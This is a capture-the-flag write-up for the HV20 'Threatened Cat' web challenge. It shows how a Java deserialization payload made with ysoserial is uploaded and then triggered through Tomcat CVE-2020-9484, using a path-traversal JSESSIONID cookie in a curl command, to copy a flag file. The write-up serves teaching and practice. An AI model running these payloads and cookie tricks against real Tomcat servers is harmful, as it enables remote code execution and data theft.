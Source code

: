 # Day 21 / HV20.21 Threatened Cat



## Challenge

<!-- ...10....:...20....:...30....:...40....:...50....:...60....:...70....:. -->
* Author: inik
* Tag:    #web-security #exploitation
* Level:  hard

You can feed this cat with many different things, but only a certain kind of
file can endanger the cat.

Do you find that kind of files? And if yes, can you use it to disclose the flag?
Ahhh, by the way: The cat likes to hide its stash in `/usr/bin/catnip.txt`.

Note: The cat is currently in hibernation and will take a few seconds to wake
up.


### Resources

An instance of the web app _Threatened Cat_ could be started from within the
the challenge description.



## Solution

The webapp was a nice ASCII kitty waiting for a file upload. (On the left)

If you uploaded a file, the cat would print out what kind of file it is and
whether it feels threatened about it. For example if a JPG image was uploaded
the result would be: (On the right)

![](threatcat_webapp.png) ![](threatcat_jpg.png)

The file information the cat printed seemed to come from the canonical 
[file(1)]() command. The only way that some unusual reaction could be provoked
was if a rather big file was uploaded. This would lead to an error message
indicating the server runtime:

[file(1)]: https://en.wikipedia.org/wiki/File_(command)

`[E]: An error occured: Maximum upload size exceeded; nested exception is 
java.lang.IllegalStateException: 
org.apache.tomcat.util.http.fileupload.impl.SizeLimitExceededException: 
the request was rejected because its size (98566380) exceeds the configured 
maximum (131072)`

Server runtime: Java/Tomcat (which is fitting the overall cat theming)


### Why so serial ?

While searching the web for exploits against Java/Tomcat, sooner or later the
topic _object serialization_ came up. Since serialization attacks are quite
intricate to build yourself, it's probably best to look for a software package
that generates such attack payloads. \*_[ysoserial project]() entering the
stage_\*

[ysoserial project]: https://github.com/frohoff/ysoserial

Since experience with serializaton attacks was lacking the preferred approach
was to simply try every payload type the tool has to offer while keeping the 
injected command simple.

With the first choice named `CommonsCollections1`, the cat felt already
threatened. With the choice `CommonsCollections2` it said that it felt _really_
threatened.

```sh
$ java -jar ysoserial-master-6eca5bc740-1.jar CommonsCollections1 'sleep 5' > attack1
$ java -jar ysoserial-master-6eca5bc740-1.jar CommonsCollections2 'sleep 5' > attack2
```

![](threatcat_threatened.png) ![](threatcat_really_threatened.png)

So far so good. But what ever command was included into the payload, it didn't
seem to get triggered.


### "Got my finger on the trigger... I'm gonna pull it."

Turns out that there is a [vulnerability in Apache Tomcat (CVE-2020-9484)] that
allows to trigger a deserialization attack by sending the server a modified
JSESSION cookie. The server basically tries to find a session stored as a file
where the attacker can provide the path to the cookie file. If the server finds
a file that ends in `.session` in the given path, it will run the 
deserialization inside it.

[vulnerability in Apache Tomcat (CVE-2020-9484)]: https://www.redtimmy.com/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/

In the end the whole attack went like this:

1. _ysoserial_ was used to craft a special deserialization payload, whose sole
   purpose is to copy the flag `/usr/bin/catnip.txt` to a path that is readable
   from the web facing side – i.e. `/usr/local/uploads/catnip.txt` readable at
   `cat/files/catnip.txt` from the web.

   ```sh
   $ java -jar ysoserial-master-6eca5bc740-1.jar CommonsCollections2 'cp /usr/bin/catnip.txt /usr/local/uploads/catnip.txt' > cattack.session
   ```

2. Upload the payload to the server via its cat web app.

3. Triggering the payload via the session cookie vulnerability.

   ```sh
   $ curl 'https://eca4b853-2bb9-4a16-a11d-e532a29541a4.idockerand/cat/' -H 'Cookie: JSESSIONID=../../../../../usr/local/uploads/cattack'
   <!doctype html><html lang="en"><head><title>HTTP Status 500 – Internal Server Error</title>
   [ LOTS OF JAVA ERROR MESSAGES ]
   ```

4. Casually download the [catnip.txt](catnip.txt) from the web page.


<!-- ...10....:...20....:...30....:...40....:...50....:...60....:...70....:. -->
--------------------------------------------------------------------------------

Flag: `HV20{!D3s3ri4liz4t10n_rulz!}`


